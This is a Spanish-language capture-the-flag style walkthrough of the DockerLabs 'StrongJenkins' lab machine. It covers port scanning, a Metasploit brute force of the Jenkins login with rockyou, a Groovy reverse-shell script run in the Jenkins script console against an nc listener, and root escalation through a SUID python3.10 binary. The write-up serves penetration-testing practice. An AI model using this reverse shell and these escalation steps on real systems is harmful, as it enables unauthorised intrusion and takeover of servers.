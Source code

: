 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# StrongJenkins DockerLabs (Intermediate)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip strongjenkins.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh strongjenkins.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 09:41 EST
Nmap scan report for 172.17.0.2
Host is up (0.000057s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 10.0.20
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.20)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.70 seconds
```

Si entramos en la pagina web por el puerto `8080` veremos un `Jenkins`, vamos a probar las credenciales por defecto pero no tendremos suerte, por lo que vamos a realizar fuerza bruta contra el login con `metasploit` de la siguiente forma:

## jenkins\_login Exploit

```shell
msfconsole -q
```

Ahora accederemos al modulo de la siguiente forma:

```shell
use scanner/http/jenkins_login
```

Ahora tendremos que configurarlo:

```shell
set RHOSTS <IP>
set USERNAME admin
set PASS_FILE /usr/share/wordlists/rockyou.txt
exploit
```

Info:

```
[!] No active DB -- Credential data will not be saved!
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:12345 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:123456789 (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:password (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:iloveyou (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:princess (Incorrect)
[-] 172.17.0.2:8080 - LOGIN FAILED: admin:1234567 (Incorrect)
[+] 172.17.0.2:8080 - Login Successful: admin:rockyou
^C[*] Caught interrupt from the console...
[*] Auxiliary module execution completed
```

Veremos que hemos encontrado las credenciales, por lo que nos loguearemos con dichas credenciales.

## Escalate user jenkins

```
User: admin
Pass: rockyou
```

Dentro del `jenkins` nos iremos a la pestaña de `Manage Jenkins` y veremos abajo del todo este apartado:

<figure><img src="../../.gitbook/assets/image (209).png" alt=""><figcaption></figcaption></figure>

Entraremos dentro de el y veremos como un recuadro donde meter un script para ejecutar:

```bash
String host="<IP>";
int port=<PORT>;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Pero antes de ejecutar nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora si lo ejecutaremos, por lo que pulsaremos a `run` y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 49766
whoami
jenkins
```

Veremos que somos el usuario `jenkins` por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si listamos los permisos `SUID` que tenemos, veremos lo siguiente:

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
2405051     40 -rwsr-xr-x   1 root     root        40496 Feb  6  2024 /usr/bin/newgrp
  2275789     36 -rwsr-xr-x   1 root     root        35200 Apr  9  2024 /usr/bin/umount
  2275773     56 -rwsr-xr-x   1 root     root        55680 Apr  9  2024 /usr/bin/su
  2275722     48 -rwsr-xr-x   1 root     root        47488 Apr  9  2024 /usr/bin/mount
  2404926     44 -rwsr-xr-x   1 root     root        44808 Feb  6  2024 /usr/bin/chsh
  2404920     72 -rwsr-xr-x   1 root     root        72712 Feb  6  2024 /usr/bin/chfn
  2405062     60 -rwsr-xr-x   1 root     root        59976 Feb  6  2024 /usr/bin/passwd
  2404988     72 -rwsr-xr-x   1 root     root        72072 Feb  6  2024 /usr/bin/gpasswd
  2528496   5768 -rwsr-xr-x   1 root     root      5904904 Nov 20  2023 /usr/bin/python3.10
  2519472     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Si vemos la siguiente linea:

```
2528496   5768 -rwsr-xr-x  1 root  root  5904904 Nov 20  2023 /usr/bin/python3.10
```

Vemos que podemos ejecutar `python3.10` bajo los privilegios de `root`, por lo que haremos lo siguiente:

```shell
python3.10 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

Info:

```
bash-5.1# whoami
root
```

Si ejecutamos esto veremos que seremos el usuario `root`, por lo que habremos terminado la maquina.
